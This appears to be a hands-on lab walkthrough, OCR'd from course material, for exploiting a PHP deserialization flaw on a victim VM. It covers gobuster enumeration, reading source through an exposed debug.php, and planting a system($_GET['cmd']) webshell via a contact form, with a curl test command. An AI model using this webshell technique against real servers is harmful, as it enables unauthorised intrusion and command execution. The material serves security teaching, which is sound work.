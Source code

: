 1. On the attacker-10 vm, open a terminal. To access the attacker-10 vm, on your browser,
   enter the address http://attacker_ip to access the VNC session. You may run ``` docker inspect          <image tag name> ``` to find the container's IP address.

2. Enter the command ``apt update -y && apt upgrade -y && apt install
   gobuster -y`` to install a tool called gobuster.

3. Then on the victim-11 vm, open a terminal, type the command
   ```
   sudo apt-get update
   sudo apt-get install net-tools
   ```
   then type the command ifconfig to check the IP of the server.

4. On the attacker-10 vm, open firefox browser, or install any browser you like. Enter
   http://victim_ip to the URL bar to access the VNC session

5. Try going through the website like a normal user, is there anywhere you can exploit,
   anything you can enter?

6. Then, on the attacker vm. use the command gobuster -w
   /wordlist/wordlist_php http://victim_ip to list the directory and hidden
   file on the webserver. Feel free to try other web enumeration tools, and use different
   wordlist as well.

7. After running the gobuster rto enumerate the hidden file on the webserver, you will find a
   new file called debug.php running on the website. To open debug.php, use the command
   http://victim_ip/debug.php

8. Now you have found the debug.php, it’s a mistake made by the developer. To access the
   source code of debug.php, you can enter the URL: viewsource:http://<victim's IP address>/debug.php?              read=debug.php to view the source code of the
   debug.php.

9. In the source code of debug.php, there are two Get parameters you can manipulate. One
   is called read and the other is execute. read can let you check the source code of the
   websites and execute will allow you to execute file contain PHP source code

10. When you run the gobuster tool, I am sure you have also found another php file called
   contact.php. contact.php is the file where the website will process the contact information
   entered by user, we can see the source code of this file by entering the URL:
   http://<victim's IP address>/debug.php?read=contact.php

11. Upon reviewing the source code of contact.php file, what have you found? There is a
   critical vulnerability in the file, a deserialization vulnerability.
   ```
   <?php
   # Omitted some code
   
   $new_customer = new customer;
   $new_customer->name = $name;
   $new_customer->email = $email;
   $new_customer->comment = $comment;
   $temp = serialize($new_customer);
   
   # Omitted some code
   
   class customer
   {
      public $name;
      public $email;
      public $comment;
      public function __sleep()
      {
         // Write the content to file once the object is serialized
         $filename = $this->name . '_' . $this->email;
         file_put_contents("./user_info/$filename", $this-
   >comment, FILE_USE_INCLUDE_PATH);
      }
   }
   ?>
   ```
12. A closer look at the preceding code reveals that the vulnerability exists in the magic
   function __sleep() defined in the class customer. The logic in the function __sleep()
   shows that once an instance of class customer is serialized, it will write a file to a
   directory in the web root directory.

13. Now we know there is a vulnerability in the code, how do we use this vulnerability?
   Recall earlier I asked you to find the parameter you can interact with on the website,
   there is a webpage where you can enter user defined text. To navigate to this page, enter
   the URL http://<victim_ip>/contact.html to access the page.

14. On this page, there are three parameters you can define: name, email, and comment. If
    you still remember the source code of the contact.php file, you can make an educated
    guess that the contact.php will handle the post request sent by contact.html form. If you
    want to verify that, you can also download burpsuites and verify. Or you can also
    examine the source code of the contact.html page to see where the POST request is sent
    to.

16. To exploit the vulnerability we see before, enter test in the name bar, enter user.php in the
    email bar, and <?php $exec = system( $_GET['cmd'] ) ?> in the comment section. After
    entering all the text, click submit to plant the webshell
    ```
    root:~# curl http://<victim's IP address>/user_info/test_user.php?cmd=whoami root
    ```

18. On the attacker VM, use the command curl
    http://<victim's IP address>/user_info/test_user.php?cmd=whoami to test whether the planted
    webshell is working or not.

19. A secure server is running on the address <secure's IP address>, you are welcome to try attacking
    it, but it does not have the deserialization vulnerability and misconfiguration present on
    the victim VM.
